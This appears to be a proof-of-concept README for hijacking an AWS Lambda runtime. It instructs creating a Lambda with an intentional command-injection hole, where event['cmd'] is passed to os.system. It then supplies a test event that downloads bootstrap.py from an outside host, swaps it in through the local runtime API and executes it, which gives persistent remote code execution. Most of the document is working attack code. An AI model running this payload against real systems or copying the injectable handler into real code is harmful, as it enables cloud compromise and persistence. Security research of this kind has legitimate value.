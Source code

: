 # Instructions for POC

- Create a new lambda with a python 3.8 runtime
- set timeout to > 4 seconds
- make it vuln:
```
import json
import os

def lambda_handler(event, context):
    # TODO implement
    return {
        'statusCode': 200,
        'body': os.system(event['cmd'])
    }
```



### test event to supply the lambda to execute the bootstrap swap:
```
{
  "cmd": "python3 -c \"import urllib3;import os;http = urllib3.PoolManager();r = http.request('GET', 'https://appointmentaid.com/bootstrap.py');w = open('/tmp/bootstrap.py', 'w');w.write(r.data.decode('utf-8'));w.close();r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next');rid = r.headers['Lambda-Runtime-Aws-Request-Id'];http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'});os.system('python3 /tmp/bootstrap.py')\"",
}
```

